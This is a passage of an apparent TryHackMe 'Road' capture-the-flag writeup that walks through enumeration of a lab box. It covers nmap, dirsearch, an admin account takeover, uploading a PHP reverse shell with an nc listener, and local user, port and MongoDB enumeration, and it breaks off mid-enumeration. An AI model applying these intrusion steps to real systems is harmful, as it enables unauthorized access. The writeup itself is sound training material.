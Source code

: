 ```yaml
---
layout: post
title:  TryHackMe | Road WriteUp
author:  sudosuraj
date:  2024-02-01
categories:  [CTF]
tags:  [TryHackMe, writeup]
image:
  path: /assets/img/headers/road.png
  alt: Road
---
```

#  TryHackMe | Road WriteUp 
![image](https://tryhackme-badges.s3.amazonaws.com/0xbug.png)  
Hello Friend!
In this writeup we gonna walkthrough TryHackMe CTF called Road.  
TryHackMe Room Link: https://tryhackme.com/room/road  
Difficulty: Medium   
##  Info Gathering Enumeration
### Nmap Scan  :shipit:
```bash
Nmap scan report for 10.10.141.52
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e6:dc:88:69:de:a1:73:8e:84:5b:a1:3e:27:9f:07:24 (RSA)
|   256 6b:ea:18:5d:8d:c7:9e:9a:01:2c:dd:50:c5:f8:c8:05 (ECDSA)
|_  256 ef:06:d7:e4:b1:65:15:6e:94:62:cc:dd:f0:8a:1a:24 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Sky Couriers
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
The port 80:  
![image](https://github.com/sudosuraz/sudosuraz.github.io/assets/81553118/02af5be9-c3bd-44a9-9150-17f21b6d6185)  

### Directory Enumeration
```bash
dirsearch.py -u http://10.10.141.52/

301   313B   http://10.10.141.52/assets    -> REDIRECTS TO: http://10.10.141.52/assets/
301   317B   http://10.10.141.52/phpMyAdmin    -> REDIRECTS TO: http://10.10.141.52/phpMyAdmin/
301   309B   http://10.10.141.52/v2    -> REDIRECTS TO: http://10.10.141.52/v2/
```

Lets visit /v2  
![image](https://github.com/sudosuraz/sudosuraz.github.io/assets/81553118/1744ff13-93fd-48d6-b732-35d8bd7815b3)  

Here, We can register ourselve, lets do a quick registration.  

![image](https://github.com/sudosuraz/sudosuraz.github.io/assets/81553118/0215a7f6-58d2-4afe-ab36-c7f9b56ea36b)

Now, lets login...  
![image](https://github.com/sudosuraz/sudosuraz.github.io/assets/81553118/23558022-dc9c-4f34-8073-dc03d7b2a26a)

### Admin account takeover
In the profile section, we got an option to upload to file, but it was only availabe for the admin@sky.thm user.  
So lets takeover admin account first.  

![image](https://github.com/sudosuraz/sudosuraz.github.io/assets/81553118/052d4104-9f38-4ad9-b419-9dc217bb2b25)  

![image](https://github.com/sudosuraz/sudosuraz.github.io/assets/81553118/83d1c48d-a667-4606-93f8-6f5564c64ab8)  

![image](https://github.com/sudosuraz/sudosuraz.github.io/assets/81553118/09b380fa-19ca-440c-aa4d-3ece0999ce7a)  

Now, lets login as admin@sky.thm user!  

![image](https://github.com/sudosuraz/sudosuraz.github.io/assets/81553118/1a4502dd-315c-4ea5-8de1-d01df086c96d)  

## Initial Shell Access
Now we have access to upload to file, lets upload php reverse shell of pentest monkey.  

![image](https://github.com/sudosuraz/sudosuraz.github.io/assets/81553118/c00b2d5c-dd66-450f-bf2f-05c1002160f2)

![image](https://github.com/sudosuraz/sudosuraz.github.io/assets/81553118/32df1413-ce0e-449e-8801-e67b2e9e8e55)

To Find out where the payload gonna uploaded, we need to intercept the response of the request, and we got this location.   

![image](https://github.com/sudosuraz/sudosuraz.github.io/assets/81553118/afdb48de-f9b7-4c86-83ff-70856738962a)


Lets visit this URI.  

```JS
http://<machine-ip>/v2/profileimages/
```

![image](https://github.com/sudosuraz/sudosuraz.github.io/assets/81553118/7a2b0610-7a7e-40cf880c-1ea333207226)  

lets take this request into burp repeater and do as follow.

![image](https://github.com/sudosuraz/sudosuraz.github.io/assets/81553118/d8bd498f-3b93-4b0a-9912-3f6797d123d1)  

Turn on NetCat listner.  
```Bash
nc -lvnp 1337
```

Append the name of the file we uploaded, and send.  
![image](https://github.com/sudosuraz/sudosuraz.github.io/assets/81553118/3e692bdd-4469-4091-bbbd-c0022ef30ba8)  

Here we got shell access!!!  
![image](https://github.com/sudosuraz/sudosuraz.github.io/assets/81553118/6dc184eb-e39b-465e-be66-cf7460c6c8f0)

We can retreive first flag here,  

## Privilege Escalation
Lets list all user's using ;-  
```Bash
$ getent passwd  
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
webdeveloper:x:1000:1000:webdeveloper:/home/webdeveloper:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
mongodb:x:114:65534::/home/mongodb:/usr/sbin/nologin
root:x:0:0:root:/root:/bin/sh
nobody:x:65534:65534:nobody:/:/usr/sbin/nologin
```  

Lets list all sudo users.  
```Bash
$ getent group | grep sudo
sudo:x:27:webdeveloper
```

So, first we need to access shell as webdeveloper user.  
If you look closer to all the user's listed above, we can find that there's some database system running, like mongodb and mysql, so lets enumerate them.
```Bash
$ ss -tunlp
Netid State  Recv-Q Send-Q      Local Address:Port    Peer Address:Port Process 
udp   UNCONN 0      0           127.0.0.53%lo:53           0.0.0.0:*            
udp   UNCONN 0      0       10.10.160.54%eth0:68           0.0.0.0:*            
tcp   LISTEN 0      70              127.0.0.1:33060        0.0.0.0:*            
tcp   LISTEN 0      511             127.0.0.1:9000         0.0.0.0:*            
tcp   LISTEN 0      4096            127.0.0.1:27017        0.0.0.0:*            
tcp   LISTEN 0      151             127.0.0.1:3306         0.0.0.0:*            
tcp   LISTEN 0      4096        127.0.0.53%lo:53           0.0.0.0:*            
tcp   LISTEN 0      128               0.0.0.0:22           0.0.0.0:*            
tcp   LISTEN 0      511                     *:80                 *:*            
tcp   LISTEN 0      128                  [::]:22              [::]:*
```
We can see, both ports, 27017 for MongoDB and 3306 for MySQL.  
Lets go with mongo first.  
Visit [this link](https://blog.e-zest.com/basic-commands-for-mongodb) for basic commands.
```Bash
>mongo
MongoDB shell version v4.4.6
connecting to: mongodb://127.0.0.1:27017/?compressors=disabled&gssapiServiceName=mongodb
Implicit session: session { "id" : UUID("c5990cf8-8b4d-4e36-ab73-8d74c780dde1") }
MongoDB server version: 4.4.6
```
List All Database
```Bash
>show dbs
admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB
```
Upon enumerating all them, backup seems more interesting, lets dig it.  
```Bash
use backup
switched to db backup
```
List all collections.
```Bash
>show collections
collection
user
```











